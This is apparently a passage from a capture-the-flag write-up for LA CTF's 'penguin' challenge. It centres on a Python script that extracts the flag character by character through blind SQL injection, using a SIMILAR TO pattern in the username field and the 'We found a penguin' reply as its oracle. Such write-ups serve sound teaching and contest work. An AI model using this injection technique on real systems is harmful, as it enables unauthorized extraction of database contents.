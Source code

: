 `findflag.py`
```py
from requests import *
from bs4 import BeautifulSoup
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    payloadEnd = payloadEnd[:-1]
    for c in digits + ascii_lowercase + ascii_uppercase + "!-@":
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        soup = BeautifulSoup(r.text, "html.parser")
        if "We found a penguin" in soup.get_text():
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        print("end: ", payload)
        break
```

I was too lazy to press F12 while playing around, so I just based my final payload on the `"We found a penguin!!!!!"` response.

![Ranting in Italian](img/ItalianRant.png)
